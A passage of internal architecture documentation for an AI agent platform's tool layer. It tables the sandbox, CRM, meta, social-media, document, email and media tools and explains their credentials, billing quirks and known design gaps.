| `video_generation` | media | [media/video_generation.py](../../backend/src/ai/tools/media/video_generation.py) | Deprecated shim — splits long requests into segments then concats | same as `video_generate` plus `length_seconds` beyond 8 s | Veo plus ffmpeg | DEPRECATED | fixed `$0.05` |

### 5.5 `sandbox/` — 3 tools

| Tool id | Category | File | What it does | Key parameters | External dependency | Status | SKU / cost |
|---|---|---|---|---|---|---|---|
| `sandbox_code` | execution | [sandbox/sandbox_executor.py](../../backend/src/ai/tools/sandbox/sandbox_executor.py) | Runs a Python or Bash snippet, auto-registers produced documents as artifacts | `language`, `code`, `timeout_s` | host subprocess or Docker | ACTIVE | `sandbox-runtime` seconds |
| `terminal` | execution | [sandbox/terminal_tool.py](../../backend/src/ai/tools/sandbox/terminal_tool.py) | `bash -c` with a destructive-command blocklist | `command`, `working_dir`, `timeout_s` | host subprocess or Docker | ACTIVE | `sandbox-runtime` seconds |
| `headless_browser` | browser | [sandbox/browser_tool.py](../../backend/src/ai/tools/sandbox/browser_tool.py) | Playwright Chromium: navigate / click / type / screenshot / get_text / evaluate | `action`, `url`, `selector`, `text`, `javascript`, `timeout_ms`, `wait_for` | Playwright Chromium | ACTIVE | `headless-browser` |

### 5.6 `crm/` — 4 tools

| Tool id | Category | File | What it does | Key parameters | External dependency | Status | SKU / cost |
|---|---|---|---|---|---|---|---|
| `get_current_datetime` | general | [crm/crm_tools.py:81](../../backend/src/ai/tools/crm/crm_tools.py:81) | Current date, time and weekday in IST | none | — | ACTIVE | — |
| `whatsapp_send_tenant` | general | [crm/crm_tools.py:120](../../backend/src/ai/tools/crm/crm_tools.py:120) | POSTs a WhatsApp message to the tenant's own WhatsApp endpoint | `to`, `message` | tenant HTTP API, provider `whatsapp_tenant` | ACTIVE | — |
| `google_calendar_create_event` | general | [crm/crm_tools.py:258](../../backend/src/ai/tools/crm/crm_tools.py:258) | Creates a calendar event for a site visit | `title`, `start_datetime`, `description`, attendees | Google Calendar, service account or OAuth2 refresh | ACTIVE | — |
| `crm_update_lead` | general | [crm/crm_tools.py:445](../../backend/src/ai/tools/crm/crm_tools.py:445) | Writes call outcome and next action back to the tenant CRM | `lead_id`, `call_outcome`, `summary` | tenant HTTP API, provider `crm_tenant` | ACTIVE | — |

### 5.7 `meta/` — 8 registered tools plus 1 unregistered

| Tool id | Category | File | What it does | Key parameters | External dependency | Status | SKU / cost |
|---|---|---|---|---|---|---|---|
| `meta_platform_introspect` | general | [meta/platform_introspect.py](../../backend/src/ai/tools/meta/platform_introspect.py) | Returns the platform capability schema: tools, models, step types, constraints | `mode` (`full`/`refresh`), `section` | Postgres, Redis cache | ACTIVE | — |
| `meta_registry_search` | general | [meta/registry_search.py](../../backend/src/ai/tools/meta/registry_search.py) | Ranks existing entities as REUSE / ADAPT / COMPOSE / CREATE candidates | `intent`, `required_tools[]`, `preferred_type`, `complexity_class`, `tags[]` | Postgres | ACTIVE | — |
| `meta_schema_validator` | general | [meta/schema_validator.py](../../backend/src/ai/tools/meta/schema_validator.py) | Validates a `HierarchicalEntityCreate` payload | `entity_payload` | — | ACTIVE | — |
| `meta_entity_creator` | general | [meta/entity_creator.py](../../backend/src/ai/tools/meta/entity_creator.py) | Creates or versions a `HierarchicalEntity` | `mode` (`CREATE`/`VERSION`), `entity_payload`, `source_entity_id`, `modifications`, `version_bump` | Postgres | ACTIVE | — |
| `meta_entity_executor` | general | [meta/entity_executor.py](../../backend/src/ai/tools/meta/entity_executor.py) | Test-runs a generated entity with a hard cost cap | `entity_id`, `test_input`, `max_cost_usd` (default `$0.50`, hard max `$1.00`) | full execution pipeline | ACTIVE | child run cost |
| `agent_introspect` | general | [meta/agent_introspect.py](../../backend/src/ai/tools/meta/agent_introspect.py) | Reports own budget, pressure, iteration, subgoals, rules, CORTEX viewport | `include_failures`, `failure_days` | Postgres | ACTIVE | — |
| `agent_reflect` | general | [meta/agent_reflect.py](../../backend/src/ai/tools/meta/agent_reflect.py) | Persists a structured learning as a CANDIDATE rule | `learning`, `kind`, `confidence` | Postgres | ACTIVE | — |
| `tool_synthesis` | general | [meta/tool_synthesis.py](../../backend/src/ai/tools/meta/tool_synthesis.py) | LLM writes a brand-new tool; validated, sandbox-tested, red-teamed, saved as DRAFT | a `ToolSpec` JSON payload (base `input` schema) | LLM plus sandbox | EXPERIMENTAL | LLM cost of the pipeline |
| `meta_spec_critic` | general | [meta/spec_critic.py](../../backend/src/ai/tools/meta/spec_critic.py) | Reviews a draft entity spec, returns PASS / REVISE / BLOCK | `mode`, `spec`, `search_top_k`, `platform_manifest_hash` | LLM | **not registered** — instantiated directly by [meta/board/critic.py:72](../../backend/src/ai/meta/board/critic.py:72) and [api/admin.py:454](../../backend/src/ai/api/admin.py:454) | LLM cost |

### 5.8 `social/` — 64 tools across 16 platforms

All 64 inherit `status = ToolStatus.EXPERIMENTAL` from
[social/base.py:48](../../backend/src/ai/tools/social/base.py:48), resolve
credentials from `social_connections`, and have **no billing SKU** — a social
API call costs the platform `$0` in HireBuddha's ledger even when it spends the
tenant's ad budget.

| Tool id | Platform | File | What it does | Key parameters |
|---|---|---|---|---|
| `linkedin_create_post` | linkedin | [social/linkedin.py](../../backend/src/ai/tools/social/linkedin.py) | Publish a post or article | `text` |
| `linkedin_get_analytics` | linkedin | linkedin.py | Post or page analytics | `analytics_type` |
| `linkedin_manage_comments` | linkedin | linkedin.py | List, reply, delete comments | `action`, `post_id` |
| `linkedin_get_profile` | linkedin | linkedin.py | Fetch member or org profile | `profile_type` |
| `twitter_create_post` | twitter | [social/twitter.py](../../backend/src/ai/tools/social/twitter.py) | Post a tweet | `text` |
| `twitter_search` | twitter | twitter.py | Recent-search the timeline | `query` |
| `twitter_get_mentions` | twitter | twitter.py | Fetch mentions for tweets | `tweet_ids` |
| `twitter_get_analytics` | twitter | twitter.py | Tweet metrics | `tweet_ids` |
| `facebook_create_post` | facebook | [social/facebook.py](../../backend/src/ai/tools/social/facebook.py) | Publish to a Page | `message` |
| `facebook_get_insights` | facebook | facebook.py | Page or post insights | `insights_type` |
| `facebook_manage_comments` | facebook | facebook.py | List, reply, hide, delete | `action`, `post_id` |
| `facebook_send_message` | facebook | facebook.py | Messenger send | `recipient_id`, `message_text` |
| `instagram_publish_media` | instagram | [social/instagram.py](../../backend/src/ai/tools/social/instagram.py) | Two-step container publish | `media_type` |
| `instagram_get_insights` | instagram | instagram.py | Account or media insights | `insights_type` |
| `instagram_manage_comments` | instagram | instagram.py | List, reply, hide, delete | `action`, `media_id` |
| `instagram_discover_hashtags` | instagram | instagram.py | Hashtag search and top media | `hashtag` |
| `google_ads_create_campaign` | google_ads | [social/google_ads.py](../../backend/src/ai/tools/social/google_ads.py) | Create a campaign | `campaign_name`, `campaign_type`, `budget_amount_micros`, `bidding_strategy` |
| `google_ads_report` | google_ads | google_ads.py | Run a GAQL query | `query` |
| `google_ads_manage_keywords` | google_ads | google_ads.py | Add, pause, remove keywords | `action`, `ad_group_resource` |
| `google_ads_get_ad_groups` | google_ads | google_ads.py | List ad groups | none required |
| `youtube_upload_video` | youtube | [social/youtube.py](../../backend/src/ai/tools/social/youtube.py) | Upload a video | `title`, `video_url` |
| `youtube_manage_playlists` | youtube | youtube.py | Create, list, add items | `action` |
| `youtube_get_analytics` | youtube | youtube.py | Channel or video analytics | `analytics_type` |
| `youtube_manage_comments` | youtube | youtube.py | List, reply, moderate | `action` |
| `tiktok_publish_video` | tiktok | [social/tiktok.py](../../backend/src/ai/tools/social/tiktok.py) | Publish a video by URL | `video_url`, `title` |
| `tiktok_get_videos` | tiktok | tiktok.py | List account videos | none required |
| `tiktok_get_analytics` | tiktok | tiktok.py | Video or account metrics | `analytics_type` |
| `tiktok_manage_comments` | tiktok | tiktok.py | List, reply, delete | `action`, `video_id` |
| `reddit_create_post` | reddit | [social/reddit.py](../../backend/src/ai/tools/social/reddit.py) | Submit to a subreddit | `subreddit`, `title` |
| `reddit_search` | reddit | reddit.py | Search posts | `query` |
| `reddit_manage_comments` | reddit | reddit.py | Reply, delete, vote | `action`, `thing_id` |
| `reddit_get_analytics` | reddit | reddit.py | Karma and post stats | `analytics_type` |
| `quora_search_questions` | quora | [social/quora.py](../../backend/src/ai/tools/social/quora.py) | Search questions | `query` |
| `quora_post_answer` | quora | quora.py | Post an answer | `question_id`, `answer_text` |
| `quora_get_spaces` | quora | quora.py | List or join Spaces | `action` |
| `quora_get_analytics` | quora | quora.py | Answer views and upvotes | `analytics_type` |
| `pinterest_create_pin` | pinterest | [social/pinterest.py](../../backend/src/ai/tools/social/pinterest.py) | Create a pin | `board_id`, `media_source_url` |
| `pinterest_manage_boards` | pinterest | pinterest.py | Create, list, delete boards | `action` |
| `pinterest_get_analytics` | pinterest | pinterest.py | Pin or account analytics | `analytics_type` |
| `pinterest_search_pins` | pinterest | pinterest.py | Search pins | `query` |
| `meta_ads_create_campaign` | meta_ads | [social/meta_ads.py](../../backend/src/ai/tools/social/meta_ads.py) | Create a Meta Ads campaign | `name`, `objective` |
| `meta_ads_manage_adsets` | meta_ads | meta_ads.py | Create, update, list ad sets | `action` |
| `meta_ads_report` | meta_ads | meta_ads.py | Insights report | none required |
| `meta_ads_manage_audiences` | meta_ads | meta_ads.py | Custom audiences | `action` |
| `linkedin_ads_create_campaign` | linkedin_ads | [social/linkedin_ads.py](../../backend/src/ai/tools/social/linkedin_ads.py) | Create a campaign | `name`, `objective_type` |
| `linkedin_ads_manage_creatives` | linkedin_ads | linkedin_ads.py | Create, update, list creatives | `action` |
| `linkedin_ads_report` | linkedin_ads | linkedin_ads.py | Analytics finder query | none required |
| `linkedin_ads_manage_audiences` | linkedin_ads | linkedin_ads.py | DMP segments | `action` |
| `linkedin_sales_search_leads` | linkedin_sales_navigator | [social/linkedin_sales_nav.py](../../backend/src/ai/tools/social/linkedin_sales_nav.py) | Lead search | none required |
| `linkedin_sales_get_lead` | linkedin_sales_navigator | linkedin_sales_nav.py | Lead detail | `lead_id` |
| `linkedin_sales_save_lead` | linkedin_sales_navigator | linkedin_sales_nav.py | Save to a list | `lead_id`, `list_id` |
| `linkedin_sales_get_lists` | linkedin_sales_navigator | linkedin_sales_nav.py | Manage lead lists | `action` |
| `youtube_ads_create_campaign` | youtube_ads | [social/youtube_ads.py](../../backend/src/ai/tools/social/youtube_ads.py) | Video campaign via Google Ads v17 | `customer_id`, `name`, `budget_amount_micros` |
| `youtube_ads_manage_ad_groups` | youtube_ads | youtube_ads.py | Ad groups | `action`, `customer_id` |
| `youtube_ads_report` | youtube_ads | youtube_ads.py | Performance report | `customer_id` |
| `youtube_ads_manage_targeting` | youtube_ads | youtube_ads.py | Targeting criteria | `action`, `customer_id`, `ad_group_id` |
| `x_ads_create_campaign` | x_ads | [social/x_ads.py](../../backend/src/ai/tools/social/x_ads.py) | X Ads campaign | `account_id`, `name`, `objective` |
| `x_ads_manage_line_items` | x_ads | x_ads.py | Line items / ad groups | `action`, `account_id` |
| `x_ads_report` | x_ads | x_ads.py | Segmented report | `account_id`, `entity`, `entity_ids` |
| `x_ads_manage_audiences` | x_ads | x_ads.py | Tailored audiences | `action`, `account_id` |
| `snapchat_ads_create_campaign` | snapchat_ads | [social/snapchat_ads.py](../../backend/src/ai/tools/social/snapchat_ads.py) | Snap campaign | `ad_account_id`, `name`, `objective` |
| `snapchat_ads_manage_ad_squads` | snapchat_ads | snapchat_ads.py | Ad squads | `action`, `ad_account_id` |
| `snapchat_ads_report` | snapchat_ads | snapchat_ads.py | Performance report | `ad_account_id`, `entity`, `entity_id` |
| `snapchat_ads_manage_audiences` | snapchat_ads | snapchat_ads.py | SAM audiences | `action`, `ad_account_id` |

### 5.9 Tools that exist but are not in the global registry

| Class | File | Why it is not registered |
|---|---|---|
| `MetaSpecCriticTool` | [meta/spec_critic.py](../../backend/src/ai/tools/meta/spec_critic.py) | Driven directly by the Meta-Agent Board, not by an LLM function call |
| `MCPToolAdapter` | [mcp/adapter.py](../../backend/src/ai/tools/mcp/adapter.py) | Created dynamically per MCP server binding, registered tenant-scoped |
| `SandboxedSynthesizedTool` | [sandbox/synthesized_tool.py](../../backend/src/ai/tools/sandbox/synthesized_tool.py) | Created by the synthesis pipeline, registered tenant-scoped as DRAFT |
| `XlsxEngine` | [documents/xlsx_engine.py](../../backend/src/ai/tools/documents/xlsx_engine.py) | Plain library — not a `Tool` subclass at all |

---

## 6. `core/` — search, scrape, calculate, write



**`web_search`** ([search.py](../../backend/src/ai/tools/core/search.py), 411
lines) is the most-used tool on the platform and the reference implementation of
the typed protocol. Points worth knowing:

- Its `_parse_query` accepts a bare string, a JSON object with any of
  `query` / `q` / `search` / `input` / `text`, or a JSON array — because the LLM
  supplies all of those shapes in practice.
- Queries longer than 500 characters are truncated with a warning that
  explicitly calls it "likely a prompt injection"
  ([search.py:92](../../backend/src/ai/tools/core/search.py:92)).
- The SerpAPI key is resolved per request from the integration registry by SKU
  `serp-api-key`, falling back to provider `serpapi`. There is **no** env-var
  fallback for the key.
- SerpAPI 429s get 3 retries at 2 s, 4 s, 8 s — this is the only real
  exponential backoff in the tool layer (see §15).

**`batch_web_search`** exists because a deep-research entity produces 10–25
queries at once. Its input parsing is a five-step ladder: raw JSON, then strip
markdown headers and code fences and retry, then regex-extract embedded JSON,
then a "narrative text" guard that rejects prose, then a short single-line
fallback. When it rejects the input it returns an instruction string telling the
LLM exactly what to send next — a deliberate self-healing prompt.

**`scraper_tool`** requires a Firecrawl key. If the company has none,
`ConfigService.get_api_key_by_provider` falls back to the APP company's key, so
Firecrawl is typically configured once system-wide. It accepts up to 10 URLs in
one call and recurses per URL.

**`file_writer`** forces the filename through `os.path.basename` and appends
`.md` unless the extension is one of `.txt .md .json .csv` — that is the whole
path-traversal defence.

---

## 7. `documents/` — the generation pipeline

There are two entirely different ways to produce a document, and both are live:



**`pdf_generator`** (746 lines) is the largest single tool and most of its size
is input rescue. `run_with_context` tries, in order: strip code fences, remove
trailing commas, `json.loads(strict=False)`, a hand-written control-character
escaper that walks the string tracking whether it is inside a JSON string, and
finally — if it is still not JSON — **treats the whole input as raw markdown**
and synthesises a title from the first `#` heading that is not step metadata
(skipping prefixes like `"wave "`, `"step "`, `"scrape"`, `"synthesize"`).

It then rewrites markdown image references to `file://` URIs so WeasyPrint can
embed them, resolving bare filenames by searching
`artifact/system-generated/{company}/{user}/images`, then
`{company}/images`, then `generated_images`, then a recursive glob.

**`xlsx_engine.py`** (400 lines) is *not* a registered tool. It is a
deterministic rendering library: four named themes
(`midnight_executive`, `forest_moss`, `coral_energy`, `charcoal_minimal`) and
helpers `add_sheet`, `apply_theme`, `add_kpi_card`, `add_native_chart`,
`format_currency/percent/number`, `add_conditional_format`, `setup_dashboard`,
`save`. **Nothing in the backend imports it** — the only reference outside the
file is a price entry in
[planning/cost_estimator.py:43](../../backend/src/ai/planning/cost_estimator.py:43).
The intent (per `docs/phase8/`) was for sandbox-generated code to import it; in
practice the Document Factory scripts are what get symlinked into the sandbox.

**`backend/templates/docx/`** contains three theme templates —
`midnight_executive.docx`, `coral_energy.docx`, `charcoal_minimal.docx`, ~36 KB
each. A repo-wide grep finds **zero** code references to this directory. Treat
it as unwired assets from the Phase 8 document-toolkit design, not as a live
template system. `docx_tool._create` always starts from a blank
`Document()`.

---

## 8. `email/` — IMAP and SMTP



All four tools share one credential resolver,
[`_resolve_connection`](../../backend/src/ai/tools/email/email_tool.py:111),
which reads the `email_connections` table (see
[email_models.py](../../backend/src/ai/email_models.py)) and decrypts
`encrypted_app_password`.

**There is no OAuth in the email tools.** The connection model stores
`encrypted_app_password` and `provider_type` (`gmail` / `outlook` / `custom`);
authentication is plain IMAP/SMTP `LOGIN` with an app password. Gmail requires
an App Password, which the `email_send` error message says explicitly. OAuth on
this platform exists only for social connections (§10) and for
`google_calendar_create_event`.

Provider-specific quirks are hardcoded by substring-matching the IMAP host:
Gmail gets a `[Gmail]/` folder prefix and `[Gmail]/Drafts`; everything else uses
`Drafts`.

`email_classify` implements "move" as COPY, then `STORE +FLAGS \\Deleted`, then
`EXPUNGE` — an expunge on the source folder. If the copy succeeds and the
expunge fails, you get a duplicate; if the process dies between them, the
original stays put.

`email_send` resolves an attachment from an `artifact_id`, refuses anything over
18 MB raw (base64 adds ~33%, Gmail's ceiling is 25 MB), and switches the MIME
container from `alternative` to `mixed` when there is an attachment.

---

## 9. `media/` — images and video



**`image_generation`** (407 lines) is the only tool that bills *itself*. Every
other tool is billed by the step executor after the fact. Inside
[image_generation.py:372](../../backend/src/ai/tools/media/image_generation.py:372)
it builds an `image_cost_map` (`imagen-4.0-generate-001` = `$0.04`,
`imagen-4-fast` = `$0.02`, `imagen-4-ultra` = `$0.06`), calls
`BillingService.record_billing_event(grouping_type="tool", ...)`, and then calls
`CreditService.consume`. Because the step executor *also* applies its
`TOOL_FIXED_COST["image_generation"] = $0.04`, a single image generation is
charged through two independent paths. See §18.

Model resolution is strict: no `model_name` means look up the company's
`text_to_image` task default; no Vertex `service_metadata.project_id` means a
hard error. There is no AI Studio / direct API-key path.

**The video split.** `video_generation` was one mega-tool. Phase 12 split it into
three so a planner can express "generate 3 clips, concat them, add narration" as
three inspectable steps with three separate cost lines. The old name survives as
a `DEPRECATED` shim that delegates. `MAX_SEGMENT_SECONDS = 8`
([_support.py:24](../../backend/src/ai/tools/media/video/_support.py:24)) and
`calculate_segments` picks the largest legal segment sizes (8, 6, 5, 4).

All ffmpeg work goes through
[`_ffmpeg.run_ffmpeg`](../../backend/src/ai/tools/media/video/_ffmpeg.py), which
calls `run_sandbox_exec` — so ffmpeg runs in the tenant container when the
container runtime is on, and is metered as compute rather than as an LLM call.

---

## 10. `social/` — 16 platforms, 64 tools



Every platform tool subclasses
[`SocialMediaTool`](../../backend/src/ai/tools/social/base.py:25), which owns
input parsing, credential resolution, the HTTP helper and error mapping. A
subclass only sets `name`, `description`, `platform`, and implements
`_execute` plus `get_function_schema`.

```python
# backend/src/ai/tools/social/base.py
class SocialMediaTool(Tool):
    platform: str = ""
    status: ToolStatus = ToolStatus.EXPERIMENTAL

    @abstractmethod
    async def _execute(self, params, credentials, context) -> Dict[str, Any]: ...

    @staticmethod
    async def _api_request(method, url, headers=None, json_body=None,
                           params=None, data=None, timeout=DEFAULT_TIMEOUT):
        async with httpx.AsyncClient(timeout=timeout) as client:
            for attempt in range(MAX_RETRIES + 1):
                try:
                    resp = await client.request(...)
                    resp.raise_for_status()
                    return resp
                except httpx.HTTPStatusError:
                    raise  # Don't retry client errors
                except (httpx.TimeoutException, httpx.ConnectError) as e:
                    if attempt == MAX_RETRIES:
                        raise
```

### Platform capability and auth matrix

`Token refresh` means the platform has an entry in `PLATFORM_REFRESH_CONFIG`
([social_connection_service.py:23](../../backend/src/ai/social_connection_service.py:23)).
A platform without one cannot auto-refresh — when its access token expires the
tool fails and a human must reconnect.

| Platform key | API base | Capabilities | Auth | Token refresh |
|---|---|---|---|---|
| `linkedin` | `api.linkedin.com/rest` | post, analytics, comments, profile | OAuth2 bearer | yes |
| `twitter` | `api.x.com/2` | post, search, mentions, analytics | OAuth2 bearer | yes |
| `facebook` | `graph.facebook.com/v22.0` | post, insights, comments, Messenger | OAuth2 page token | yes — `fb_exchange_token` |
| `instagram` | Facebook Graph | publish, insights, comments, hashtags | OAuth2 via Facebook | yes — `ig_refresh_token` |
| `google_ads` | `googleads.googleapis.com/v18` | campaign, GAQL report, keywords, ad groups | OAuth2 refresh token | yes |
| `youtube` | `googleapis.com/youtube/v3` | upload, playlists, analytics, comments | OAuth2 refresh token | yes |
| `tiktok` | `open.tiktokapis.com/v2` | publish, list videos, analytics, comments | OAuth2 | yes |
| `reddit` | `oauth.reddit.com` | post, search, comments, analytics | OAuth2 | yes |
| `quora` | `api.quora.com/v1` | search, answer, spaces, analytics | OAuth2 bearer | **no** |
| `pinterest` | `api.pinterest.com/v5` | pin, boards, analytics, search | OAuth2 bearer | **no** |
| `meta_ads` | `graph.facebook.com/v22.0` | campaign, ad sets, insights, audiences | OAuth2 bearer | **no** |
| `linkedin_ads` | `api.linkedin.com/rest` | campaign, creatives, report, DMP segments | OAuth2 bearer | **no** |
| `linkedin_sales_navigator` | `api.linkedin.com/rest/salesNavigator` | lead search, lead detail, save, lists | OAuth2 bearer | **no** |
| `youtube_ads` | `googleads.googleapis.com/v17` | campaign, ad groups, report, targeting | OAuth2 bearer | **no** |
| `x_ads` | `ads-api.x.com/12` | campaign, line items, report, audiences | OAuth2 bearer | **no** |
| `snapchat_ads` | `adsapi.snapchat.com/v1` | campaign, ad squads, report, SAM audiences | OAuth2 bearer | **no** |

Two more caveats the package README states plainly
([tools/README.md:36](../../backend/src/ai/tools/README.md:36)): none of the 64
are wired to a production entity, and several are unfinished. `quora` in
particular points at `api.quora.com/v1`, which is not a public API surface.
`youtube_ads` targets Google Ads **v17** while `google_ads` targets **v18**.

---

## 11. `crm/` — the tenant CRM bridge



These four tools exist for one workflow: a real-estate voice agent that answers
a call, offers a site-visit slot, books it, WhatsApps a confirmation, and writes
the outcome back to the tenant's CRM. See
[12 — Voice & telephony](12-voice-and-telephony.md) for the calling side.

The whole file (592 lines) shares one helper,
[`_resolve_integration(company_id, provider_name)`](../../backend/src/ai/tools/crm/crm_tools.py:32),
which reads an active `IntegrationRegistry` row and decrypts
`encrypted_api_key`. The tenant's WhatsApp URL and CRM URL live in that row's
`service_metadata` JSON — so these tools call whatever HTTP endpoint the tenant
configured. `google_calendar_create_event` supports both a service account and
an OAuth2 refresh-token flow.

`get_current_datetime` is hardcoded to IST (`UTC+05:30`,
[crm_tools.py:25](../../backend/src/ai/tools/crm/crm_tools.py:25)). It is not
tenant-timezone aware.

---

## 12. `sandbox/` — code, terminal, browser and the trust boundary

This is the highest-risk part of the tool layer: it executes LLM-authored code.

### 12.1 The runtime abstraction

Phase 12 introduced a `SandboxRuntime` Protocol
([sandbox/runtime.py:113](../../backend/src/ai/tools/sandbox/runtime.py:113)) so
the execution substrate can be swapped without touching tool code. There are two
implementations.

